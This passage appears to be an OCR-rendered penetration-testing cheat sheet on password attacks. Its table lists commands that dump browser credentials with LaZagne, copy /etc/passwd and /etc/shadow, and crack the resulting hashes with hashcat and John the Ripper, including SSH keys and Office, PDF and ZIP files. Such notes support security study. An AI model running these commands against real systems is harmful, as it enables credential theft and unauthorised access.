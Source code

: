 | ``python3 lazagne.py browsers`` | Runs Lazagne.py browsers module using Python 3. |

| `**Passwd, Shadow & Opasswd**` |  |

| `Cracking Linux Credentials` | Once we have collected some hashes, we can try to crack them in different ways to get the passwords in cleartext. |

| ``sudo cp /etc/passwd /tmp/passwd.bak`` | Moving the passwd file |

| ``sudo cp /etc/shadow /tmp/shadow.bak`` | Moving the shadow file |

| ``unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes`` | Unshadow |

| ``hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked`` | Hashcat - Cracking Unshadowed Hashes |

| ``hashcat -m 500 -a 0 md5-hashes.list rockyou.txt`` | Hashcat - Cracking MD5 Hashes |

| `------------------------------------------------------------------------------------------------------------` | ---------------------------------------------------------------------------------------------------------------------------------------------- |

| ``hashcat -m 1000 dumpedhashes.txt /usr/share/wordlists/rockyou.txt`` | Uses Hashcat to crack NTLM hashes using a specified wordlist. |

| ``hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt --show`` | Uses Hashcat to attempt to crack a single NTLM hash and display the results in the terminal output. |

| ``unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes`` | Uses unshadow to combine data from passwd.bak and shadow.bk into one single file to prepare for cracking. |

| ``hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked`` | Uses Hashcat in conjunction with a wordlist to crack the unshadowed hashes and outputs the cracked hashes to a file called unshadowed.cracked. |

| ``hashcat -a 0 -m 0 HASH /usr/share/wordlists/WORDLIST -r /usr/share/hashcat/rules/best64.rule`|` | Uses Hashcat in conjunction with best64.rule, which contains 64 standard password modifications—such as appending numbers or substituting characters with their "leet" equivalents. To perform this kind of attack, we would append the -r <ruleset> |

| ``hashcat -m 22100 backup.hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt -o backup.cracked`` | Uses Hashcat to crack the extracted BitLocker hashes using a wordlist and outputs the cracked hashes into a file called backup.cracked. |

| ``ssh2john.pl SSH.private > ssh.hash`` | Runs Ssh2john.pl script to generate hashes for the SSH keys in the SSH.private file, then redirects the hashes to a file called ssh.hash. |

| ``john ssh.hash --show`` | Uses John to attempt to crack the hashes in the ssh.hash file, then outputs the results in the terminal. |

| ``office2john.py Protected.docx > protected-docx.hash`` | Runs Office2john.py against a protected .docx file and converts it to a hash stored in a file called protected-docx.hash. |

| ``john --wordlist=rockyou.txt protected-docx.hash`` | Uses John in conjunction with the wordlist rockyou.txt to crack the hash protected-docx.hash. |

| ``pdf2john.pl PDF.pdf > pdf.hash`` | Runs Pdf2john.pl script to convert a pdf file to a pdf has to be cracked. |

| ``john --wordlist=rockyou.txt pdf.hash`` | Runs John in conjunction with a wordlist to crack a pdf hash. |

| ``zip2john ZIP.zip > zip.hash`` | Runs Zip2john against a zip file to generate a hash, then adds that hash to a file called zip.hash. |

| ``john --wordlist=rockyou.txt zip.hash`` | Uses John in conjunction with a wordlist to crack the hashes contained in zip.hash. |
